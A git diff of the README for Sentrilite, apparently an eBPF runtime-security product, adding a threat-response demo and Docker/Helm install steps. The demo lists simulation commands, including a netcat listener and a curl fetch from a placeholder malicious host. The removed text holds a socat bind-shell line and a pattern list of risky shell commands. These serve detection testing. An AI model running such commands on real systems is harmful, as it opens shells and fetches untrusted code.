

Updated README.md with Demo

diff --git a/README.md b/README.md
@@ -1,18 +1,48 @@
-# Sentrilite — Threat-Detection-as-Code, eBPF-based, Observability, Runtime-Security & Cloud-Security Posture Management in One Platform with AI/LLM Insights.
+# Sentrilite — Threat Detection-as-Code & Active Response (DACR), eBPF-based, Observability, Runtime-Security & Cloud-Security Posture Management in One Platform with AI/LLM Insights.
+## Website: https://sentrilite.com
+## Contact: info@sentrilite.com
 
-#Sentrilite Workflow Diagram
-![Sentrilite hybrid cloud diagram](./Sentrilite_Architecture_Diagram.png)
-#Sentrilite Components
-![Sentrilite components](./components.png)
+# Live Demo – Active Threat Response
+![Sentrilite Demo](./Sentrilite_Demo.gif)
+
+---
+
+## What This Demo Shows
+
+- Detection of active threats **during execution**
+- Risk scoring based on **syscall + process + network behavior**
+- **Automatic process termination** for high-risk activity
+
+This demo shows **real-time detection and automatic termination of malicious activity** on a live Linux system using Sentrilite.
+
+| Color | Category | Meaning |
+|------|---------|--------|
+| 🔴 **Red** | Critical Risk | Confirmed malicious behavior with high confidence |
+| 🟠 **Orange** | Medium Risk | Suspicious activity requiring investigation |
+| 🟣 **Purple** | Active Response | Enforcement action taken – process terminated |
+
+The following commands were used for simulation:
+```
+sudo  nc -l 5000
+curl http://malicious_payload.com >/dev/null 2>&1
+nmap -p 22,80,443 127.0.0.1 >/dev/null 2>&1
+```
+---
+
+# Sentrilite Alert Report
+![Sentrilite PDF_Report](./Sample_Alert_Report.png)
 # Main Dashboard
 ![Sentrilite Main Dashboard](./main_dashboard.png)
 # Live Server Dashboard
 ![Sentrilite Server_Dashboard](./live_dashboard.png)
-# PDF Report
-![Sentrilite PDF_Report](./pdf_report.png)
+# Sentrilite Workflow Diagram
+![Sentrilite hybrid cloud diagram](./Sentrilite_Architecture_Diagram.png)
+# Sentrilite Components
+![Sentrilite components](./components.png)
 # CI/CD Workflow
 ![Sentrilite_CI_CD_Workflow](./CI_CD_Workflow.png)
 
+# ✨ Description
 
 Sentrilite is a Detection-as-Code (DAC), Hybrid-Cloud Programmable Observability, Runtime-Security & CSPM Platform and streams structured, real-time events to a web UI where custom rules drive risk scoring, alerting, and reporting.
 Hybrid & multi-cloud ready: Works the same across public clouds and on-prem—EKS, GKE, AKS, vanilla Kubernetes, bare-metal, and edge—so you get a consistent, low-overhead security and observability layer for hybrid/multi-cloud environments all managed from a single dashboard.
@@ -74,8 +104,8 @@ In summary, Sentrilite gives you container-aware process, file, and network visi
 | `LICENSE.bpftool`         | GPL-2.0 License for bpftool. Source: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/plain/LICENSES/preferred/GPL-2.0
 | `license.key`             | Sentrilite License key file
 | `LICENSE.txt`             | Sentrilite License Agreement
-| `install.README`          | This installation guide
 | `gen_keys.txt`            | Instructions to create tls/ssl/jwt keys for agent/control-plane
+| `install.README`          | This installation guide
 | `dashboard.README`        | Dashboard usage guide
 | `Product Guide v1.1.pdf`  | Sentrilite Product Guide
 
@@ -111,6 +141,32 @@ The project is currently using a trial license.key .
 
 Sentrilite prefers env vars (K8s) and falls back to sys.conf (bare metal).
 Note: Alertmanager must be reachable and supports v2 API (/api/v2/alerts). PagerDuty uses Events v2.
+
+---
+
+## Quick Trial 
+
+## Run it with Docker 
+
+```
+sudo docker run \
+  --name sentrilite \
+  --privileged \
+  --network host \
+  -v /sys/fs/bpf:/sys/fs/bpf \
+  -v /sys/kernel/debug:/sys/kernel/debug \
+  sentrilite/local:1.0.0
+
+```
+PDF reports can be downloaded at http://localhost:8080. Reports are generated every 5 mins.
+
+## Run it on Kubernetes Cluster
+
+git clone repo. cd to the charts directory and run:
+
+```
+helm upgrade --install sentrilite charts/sentrilite -n kube-system --create-namespace
+```
 
 ---
 
@@ -221,7 +277,7 @@ For more detail information, refer to dashboard.README
 
 - license.key — place in the current directory (baked in image or mounted as Secret).
 - sys.conf — network config, placed in the current directory (baked in image or mounted as ConfigMap).
-- Rule files (custom_rules.json, sensitive_files.json, security_rules.json, regex_rules.json) reside in the working dir; rules can be managed via the dashboard.
+- Rule files (custom_rules.json, sensitive_files.json, security_rules.json, alerts.json) reside in the working dir; rules can be managed via the dashboard.
 
 ---
 
@@ -229,69 +285,6 @@ For more detail information, refer to dashboard.README
 
 - Events include (when available): k8s_namespace, k8s_pod, k8s_container, k8s_pod_uid.
 - OOMKilled alerts and pod watchers run best-effort when the agent can access K8s APIs.
-
----
-
-# Active Threat Response — Behavior & Safety Guarantees
-
-This document explains **exactly what `guardedKillWithTimeout()` will kill, what it will refuse to kill, and why**.  
-The goal of this function is to enable **safe, auditable active response** without risking system or infrastructure stability.
-
----
-
-## High-Level Summary
-
-Sentrilite Active Threat Response: attempts to terminate a process **only if it passes strict guardrails**.
-
-The function:
-1. Applies **hard safety checks** (PID, `/proc`, protected processes)
-2. Applies **root-specific restrictions**
-3. Attempts a **two-phase kill** (`SIGTERM` → `SIGKILL`)
-4. Returns a **deterministic outcome string + success flag**
-
-It is **safe-by-default** and intentionally conservative.
-
-## What It Will Kill
-
-To enable it, make the risk_level/severity to 0.
-
-### 1. Non-root user processes
-Processes are killable if ALL of the following are true:
-
-- `pid > 2`
-- `/proc/<pid>/status` is readable
-- Process is **not protected** by `isProtectedProcess()`
-
-Kill sequence:
-1. Send `SIGTERM`
-2. Wait up to `timeout / 2`
-3. If still alive, send `SIGKILL`
-4. Wait remaining timeout
-5. Report success if the process exits
-
-This includes:
-- Normal user processes (`uid >= 1000`)
-- User-launched background processes
-- Many application processes running in containers (unless infra-protected)
-
-### 2. Root processes — **only if interactive and allowlisted**
-
-Root (`uid == 0`) processes are killable **only if** they appear to be:
-- Interactive (attached to a TTY)
-- Launched from `sudo`, `su`, or a shell (`bash`, `sh`, `zsh`, `fish`)
-- Match an explicit **risky command allowlist**
-
-Current allowlist patterns:
-- `nc -l`, `ncat -l`, `netcat -l`
-- `socat`
-- `bash -i`, `sh -i`
-
-Example (killable):
-```
-sudo nc -l 5000
-sudo socat TCP-LISTEN:4444,fork EXEC:/bin/bash
-sudo bash -i
-```
 
 ---
 
